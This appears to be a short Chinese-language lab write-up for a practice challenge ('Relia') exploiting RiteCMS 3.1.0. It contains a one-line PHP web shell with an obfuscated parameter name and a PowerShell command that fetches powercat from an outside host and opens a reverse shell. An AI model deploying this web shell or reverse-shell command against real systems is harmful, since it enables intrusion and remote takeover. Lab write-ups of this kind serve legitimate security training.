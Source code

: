 [RiteCMS 3.1.0 - 远程代码执行 (RCE)（已验证）- PHP webapps 漏洞 --- RiteCMS 3.1.0 - Remote Code Execution (RCE) (Authenticated) - PHP webapps Exploit](./https://www.exploit-db.com/exploits/50616)

按照其中的步骤上传pHp文件即可

```
一句话木马
<?php system($_GET[base64_decode('Y21k')]);?>
```

![image-20250914164804227](./Challenge%202%20-%20Relia/image-20250914164804227.png)

然后上传powercat利用powercat反弹shell

```
cmd /c powershell IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.222:8000/powercat.ps1');powercat -c 192.168.45.222 -p 80 -e cmd
```



![image-20250914165202441](./Challenge%202%20-%20Relia/image-20250914165202441.png)

![image-20250914165227815](./Challenge%202%20-%20Relia/image-20250914165227815.png)

![image-20250914165711050](./Challenge%202%20-%20Relia/image-20250914165711050.png)
